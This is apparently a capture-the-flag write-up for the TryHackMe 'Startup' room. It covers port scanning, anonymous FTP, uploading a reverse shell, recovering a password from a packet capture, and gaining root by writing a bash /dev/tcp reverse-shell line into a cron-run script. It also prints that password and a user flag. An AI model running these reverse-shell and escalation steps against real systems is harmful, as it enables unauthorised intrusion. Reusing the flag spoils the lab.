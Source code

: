 # Startup

Room: Startup

Link: https://tryhackme.com/room/startup

Machine IP: 10.10.55.197

### Recon 
<h4> Nmap Scan </h4>
21/tcp open  ftp

22/tcp open  ssh

80/tcp open  http

Also during nmap scan we see that anonymous login is allowed so we will take a look at that in a min but first let's have a look at dirb scan.

<h4> Dirb Scan <h5>

Dirb scan gives us a directory named files.
  
  <img src="images/directory.png">

### Enumeration
Now connecting to the ftp server we find a image file and a txt file downloading them to our machine and now seeing the contents of txt file it says "Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus."

Well didn't get much out of it.And there's nothing in the image too.

<h4> Reverse shell</h4> 

We don't have the write permissions on "/" directory so we upload the rev shell file on ftp directory and it is successful.

 <img src="images/upload.png">

Starting a listener and we have our reverse shell.
  
   <image src="images/recipe.png">

Moving to the incidents directory we find a .pcapng file and to download that file we copy the file from the target machine to its open ftp server 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/

Downloading the file on our machine.
 
  <img src="images/suspicious.png">

Typing the command strings suspicious.pcapng scrolling down and we see the password for www-data.
 c4ntg3t3n0ughsp1c3

  <img src="images/password.png">

Stabilizing our reverse shell by using the following command.
  python -c 'import pty; pty.spawn("/bin/sh")'

Entering the above found password for lennie we get access. Moving to the home/lennie directory we have our user flag: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

<h3> PrivEsc </h3>
Moving to the scripts folder.
Using the following command and print the reverse shell command in the print.sh file so that we can get a privileged shell
 
  <img src="images/lennie.png">

    echo 'bash -c "bash -i >& /dev/tcp/10.9.162.197/8080 0>&1"' > /etc/print.sh

After this we get a privileged shell and we have our root flag

<img src="images/root.png">
